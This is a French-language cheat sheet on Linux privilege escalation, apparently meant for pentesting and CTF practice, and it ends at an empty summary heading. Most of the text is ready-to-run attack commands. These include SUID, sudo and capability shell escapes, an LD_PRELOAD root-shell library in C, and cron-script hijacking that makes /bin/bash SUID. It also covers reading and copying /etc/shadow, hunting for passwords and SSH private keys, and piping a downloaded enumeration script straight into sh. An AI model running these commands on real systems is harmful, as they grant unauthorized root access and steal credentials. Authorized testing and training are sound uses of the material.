

# Linux Privilege Escalation

L'escalade de privilèges Linux consiste à passer d'un utilisateur à faibles droits (www-data, service, utilisateur standard) vers root. C'est une étape fondamentale du pentest et des CTF après avoir obtenu un premier accès.

## Énumération initiale — toujours commencer ici

```bash
# Identité et contexte
id                          # uid=1000(user) gid=1000(user) groups=...
whoami
sudo -l                     # Commandes sudo autorisées (et avec quel mot de passe)
uname -a                    # Version du kernel
cat /etc/os-release
cat /proc/version

# Utilisateurs et groupes
cat /etc/passwd             # Liste des utilisateurs
cat /etc/group              # Liste des groupes
cat /etc/shadow             # Hashes (si lisible → craquage)
ls -la /home/               # Autres utilisateurs

# Réseau
ss -tulnp                   # Ports ouverts (dont services internes)
ip a ; ip route             # Interfaces réseau
cat /etc/hosts              # Hôtes locaux

# Processus
ps aux                      # Tous les processus (chercher root + processus inconnus)
ps auxww                    # Avec ligne de commande complète
```

## SUID et SGID

Les binaires SUID s'exécutent avec les droits du propriétaire (souvent root), quelle que soit l'identité de l'appelant.

```bash
# Trouver tous les binaires SUID
find / -perm -u=s -type f 2>/dev/null
# Binaires suspects : tout ce qui n'est pas dans /bin, /usr/bin standard

# Binaires SGID
find / -perm -g=s -type f 2>/dev/null

# Exemples d'exploitation (GTFOBins : gtfobins.github.io)
# Si /usr/bin/find est SUID
find . -exec /bin/sh -p \; -quit   # -p = preserve privileges

# Si /usr/bin/vim est SUID
vim -c ':!/bin/sh -p'

# Si /usr/bin/nmap est SUID (versions < 5.21)
nmap --interactive
!sh

# Si /usr/bin/python est SUID
python -c 'import os; os.system("/bin/sh -p")'

# Si /bin/cp est SUID → copier /etc/shadow
cp /etc/shadow /tmp/shadow_copy
```

**GTFOBins** (`gtfobins.github.io`) : référence de tous les binaires Unix exploitables pour l'escalade de privilèges via SUID, sudo, capabilities.

## Sudo

```bash
# Lister les droits sudo de l'utilisateur courant
sudo -l

# Exemples de configurations vulnérables dans /etc/sudoers

# (ALL) NOPASSWD: ALL → root immédiat
sudo /bin/bash

# (ALL) NOPASSWD: /usr/bin/vim
sudo vim -c ':!/bin/bash'

# (ALL) NOPASSWD: /usr/bin/python3
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'

# (ALL) NOPASSWD: /usr/bin/find
sudo find / -exec /bin/bash \;

# (ALL) NOPASSWD: /usr/bin/less
sudo less /etc/passwd
!/bin/bash   # Dans less, ! exécute une commande

# Sudo via LD_PRELOAD (si env_keep += LD_PRELOAD est dans sudoers)
# Créer une lib qui exécute un shell en tant que root
cat > /tmp/privesc.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
void _init() {
    setuid(0); setgid(0);
    system("/bin/bash -p");
}
EOF
gcc -shared -fPIC -o /tmp/privesc.so /tmp/privesc.c -nostartfiles
sudo LD_PRELOAD=/tmp/privesc.so /usr/bin/any_command_sudo_allows
```

## Capabilities

Les capabilities Linux donnent des droits précis à des binaires sans leur donner root complet.

```bash
# Lister les capabilities
getcap -r / 2>/dev/null

# Capabilities dangereuses
cap_setuid+ep   # Peut changer son UID → root
cap_net_raw+ep  # Peut sniffer le réseau brut
cap_dac_override+ep  # Peut ignorer les permissions de fichiers

# Exploitation de cap_setuid sur python3
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# Exploitation de cap_setuid sur perl
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

## Cron jobs

```bash
# Lister les crons système
cat /etc/crontab
ls -la /etc/cron.*
cat /etc/cron.d/*
crontab -l      # Cron de l'utilisateur courant

# Si un cron s'exécute en root et appelle un script modifiable
* * * * * root /opt/backup.sh   # backup.sh appartient à l'utilisateur courant ?
ls -la /opt/backup.sh
# Si writable → modifier le script
echo "chmod +s /bin/bash" >> /opt/backup.sh
# Attendre que le cron s'exécute, puis :
/bin/bash -p   # Shell root

# PATH hijacking dans les crons
# Si cron fait : PATH=/home/user:/usr/bin → et appelle "backup" sans chemin absolu
echo '#!/bin/bash\nchmod +s /bin/bash' > /home/user/backup
chmod +x /home/user/backup
# Attendre l'exécution du cron
```

## Fichiers de configuration sensibles

```bash
# Chercher des mots de passe dans les fichiers
grep -r "password" /var/www/ 2>/dev/null
grep -r "DB_PASS\|db_password\|MYSQL_ROOT" /var/www/ 2>/dev/null
cat /var/www/html/config.php   # Config PHP typique
cat /home/*/.bash_history      # Historique des commandes
cat /root/.bash_history        # Si accessible
find / -name "*.conf" -readable 2>/dev/null | xargs grep -l "password" 2>/dev/null

# Fichiers de backup contenant des credentials
find / -name "*.bak" -o -name "*.backup" -o -name "*.old" 2>/dev/null

# Clés SSH
find / -name "id_rsa" -o -name "id_ed25519" 2>/dev/null
cat ~/.ssh/authorized_keys
```

## Kernel exploits

En dernier recours (risque de crash du système).

```bash
# Version du kernel
uname -r          # 5.4.0-42-generic
cat /proc/version

# Rechercher des CVEs associées
# https://www.exploit-db.com/local
# https://github.com/bwbwbwbw/linux-exploit-suggester

# Outils automatiques d'énumération des exploits kernel
./linux-exploit-suggester.sh
./linPEAS.sh | grep "CVE"

# Exemples d'exploits kernel célèbres
# Dirty Cow (CVE-2016-5195) — kernel < 4.8.3
# Dirty Pipe (CVE-2022-0847) — kernel 5.8 - 5.16.11
# PwnKit (CVE-2021-4034) — pkexec SUID, toutes distributions
```

## Outils automatiques d'énumération

```bash
# LinPEAS — le plus complet
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t

# linux-exploit-suggester
./linux-exploit-suggester.sh

# pspy — surveiller les processus sans root (détecte les crons)
./pspy64
```

## Récapitulatif par ordre de priorité


